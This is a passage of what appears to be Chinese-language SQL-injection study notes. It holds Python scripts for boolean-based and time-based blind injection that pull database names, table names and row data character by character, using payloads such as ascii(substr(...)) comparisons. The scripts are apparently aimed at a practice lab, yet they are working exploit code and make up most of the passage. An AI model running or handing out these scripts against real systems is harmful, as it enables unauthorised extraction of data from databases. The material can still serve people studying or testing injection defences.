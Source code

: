 ```python
                    break
                data_length +=1
            data=''
            for k in range(data_length):
                for char in chars:
                    #print(char)
                    payload_=f"'or (ascii(substr(cast((select {column_name_list[i]} from {database}.{table_name} limit {j},1) as char),{k+1},1)))={ord(char)}--+"
                    if send_payload(payload_):
                        data+=char
                        #print(f"{table_name}表的第{j+1}列数据的第{i+1}列为",data)
                        #print("{}表的{}列第{}条数据的值为:".format(table_name, column_name_list[i], j + 1), data)
                        break
                print("{}表的{}列第{}条数据的值为:".format(table_name, column_name_list[i], j + 1), data)

if __name__ == '__main__':
    length=get_database_name_length()  #获取库名长度
    #length=8
    database=get_database_name(length) #获取库名
    #database='security'
    table_num=get_tables_num(database)  #获取表数量
    #table_num=4
    table_name_length_list=get_tables_name_length(database,table_num) #获取各个表名长度
    #table_name_length_list=[6,8,7,5]
    table_name_list=get_table_name(database,table_num,table_name_length_list) #获取各个表名
    #table_name_list=['emails','users','referers','uagents'] #为测试数据改换了表名的顺序
    get_column_num(database,table_name_list)
```

#### 时间盲注



脚本

    #!/usr/bin/python
    # -*- coding: utf-8 -*-
    import binascii
    
    import requests
    from fake_useragent import UserAgent
    
    
    def get_tables(url, payload_header, payload_end):
        # 获取长度
        length = 100
        for L in range(1, 1000):
            payload = url + payload_header + \
                      "length((select group_concat(table_name) from information_schema.tables " \
                      f"where table_schema=database()))={L}" + payload_end
            print(f'\r正在获取当前库所有表名拼接后长度：{L}', end='')
            if judge_time(payload):
                print(f'\n当前库所有表名拼接后长度：{L}', end='')
                length = L
                break
            elif L == 999:
                print(f'\r无法获取当前库所有表名拼接后长度为：{L}', end='')
        print()
    